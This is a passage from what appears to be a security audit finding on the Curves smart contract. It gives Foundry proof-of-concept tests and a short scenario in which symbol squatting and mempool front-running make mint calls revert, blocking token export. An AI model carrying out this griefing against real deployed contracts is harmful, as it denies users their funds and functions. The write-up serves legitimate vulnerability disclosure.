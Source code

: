 ```
    function setUp() public {
        vm.deal(alice, 1 ether);
        vm.deal(bob, 1 ether);
        vm.deal(jack, 1 ether);
        vm.deal(zed, 1 ether);
        vm.startPrank(alice);
        CurvesERC20Factory factory = new CurvesERC20Factory();
        curves = new Curves(address(factory),alice);
        console.log(curves.curvesERC20Factory());
    }

    function test_revertByInject() public {
        vm.startPrank(zed);
        curves.mint(zed);
        vm.startPrank(bob);
        console.log("BOB set Symbol to CURVES1 and mint");
        curves.setNameAndSymbol(bob,"Test","CURVES2");
        curves.mint(bob);
        assertEq(bob,curves.symbolToSubject("CURVES2"));
        vm.startPrank(jack);
        vm.expectRevert(InvalidERC20Metadata.selector);
        curves.mint(jack);
    }
}
```
In the POC, Curves::mint(jack) will finally revert due to InvalidERC20Metadata(). Thus, by setting the symbol as CURVES2, the initial design to handle default-input cases would fail forever. As a consequence, the contract is unable to export Token to ERC20.
### 2. The mechanism is vulnerable to front-run attack.
Even if a user could call setNameAndSymbol to set the name and symbol of the token, his call on mint or other functions could still be front-run and cause Revert.

Consider the following situation:

- Alice calls setNameAndSymbol to set the symbol to alice.
- Before she calls mint, bob is monitoring the mem-pool and quickly sends a transaction to set the symbol to alice and mint.
- Alice's transaction would revert unexpectedly.
We have a POC here.
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console2} from "forge-std/Test.sol";
import {Curves} from "../src/Curves.sol";
import {CurvesERC20Factory} from "../src/CurvesERC20Factory.sol";
import "forge-std/console.sol";

contract CurveTest is Test {
    error InvalidERC20Metadata();

    Curves public curves;
    address internal constant alice = address(1);
    address internal constant zed = address(4);
    address internal constant bob = address(2);
    address internal constant jack = address(3);

    function setUp() public {
        vm.deal(alice, 1 ether);
        vm.deal(bob, 1 ether);
        vm.deal(jack, 1 ether);
        vm.deal(zed, 1 ether);
        vm.startPrank(alice);
```